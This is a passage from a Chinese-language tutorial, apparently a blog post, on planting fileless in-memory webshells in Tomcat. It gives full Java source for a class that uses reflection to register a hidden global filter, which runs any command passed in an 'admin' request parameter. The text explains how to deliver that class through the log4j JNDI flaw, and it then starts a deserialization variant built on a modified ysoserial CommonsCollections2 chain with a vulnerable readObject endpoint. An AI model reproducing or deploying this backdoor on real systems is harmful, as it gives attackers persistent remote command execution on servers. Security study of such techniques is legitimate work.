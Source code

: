     
    
    import org.apache.catalina.Context;import org.apache.catalina.core.*;import org.apache.catalina.loader.WebappClassLoaderBase;import org.apache.tomcat.util.descriptor.web.*;import javax.servlet.*;import javax.servlet.http.*;import java.io.*;import java.lang.reflect.*;import java.util.Map;  
    @SuppressWarnings("unchecked")public class Exploit{    public Exploit() throws NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException {        class BackdoorFilter extends HttpFilter {            public void doFilter(ServletRequest req, ServletResponse res, FilterChain filterChain) throws IOException, ServletException {                HttpServletRequest request = (HttpServletRequest) req;                if (request.getParameter("admin")!=null){                    Runtime.getRuntime().exec(request.getParameter("admin"));                }                filterChain.doFilter(req, res);            }        }        String name = "BackdoorFilter";        // 从ContextClassLoader获取StandardContext        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();        StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();        // 通过反射从StandardContext获取到filterConfigs        Field field = standardContext.getClass().getDeclaredField("filterConfigs");        field.setAccessible(true);        Map filterConfigs = (Map) field.get(standardContext);  
            if (filterConfigs.get(name) == null) { // 防止重复注入            BackdoorFilter filter = new BackdoorFilter();            // 封装Filter为FilterDef，并添加到StandContext中            FilterDef filterDef = new FilterDef();            filterDef.setFilterName(name);            filterDef.setFilterClass(filter.getClass().getName());            filterDef.setFilter(filter);            standardContext.addFilterDef(filterDef);            // 生成新的ApplicationFilterConfig并添加到filterConfigs中            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);            constructor.setAccessible(true);            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);            filterConfigs.put(name, filterConfig);            // 创建FilterMap并加入StandardContext中，为Filter确定适用的URL            FilterMap filterMap = new FilterMap();            filterMap.addURLPattern("/*"); // 全局生效            filterMap.setFilterName(name);            filterMap.setDispatcher(DispatcherType.REQUEST.name());            standardContext.addFilterMapBefore(filterMap);        }    }}  
      
    

首先触发log4j漏洞，利用JNDI执行我们的Exploit植入内存马，随后访问任意URL时带上admin参数即可执行命令

可以发现，在这种情况下，我们实现了真正的无文件落地，但是JNDI+LDAP的攻击方式在jdk
8u191及之后就无法利用了，下一节我们讨论基于反序列化的植入方法

## 基于反序列化的内存马植入 - ysoserial-CommonsCollections2改造

> 参考：基于tomcat的内存 Webshell 无文件攻击技术 - 先知社区 (aliyun.com)

由于CommonsCollections2使用了TemplatesImpl，所以我们才能用这个方法进行内存马注入，像CommonsCollections1没有利用TemplatesImpl，所以就不行了

### 配置反序列化环境

我们写一个进行反序列化的接口，放在`doPost()`里面，核心代码只需一句

  * 

    
    
    (new ObjectInputStream((request.getInputStream()))).readObject();

我们使用CommonsCollections2作为例子，通过Maven引入`commons-collections4:4.0`

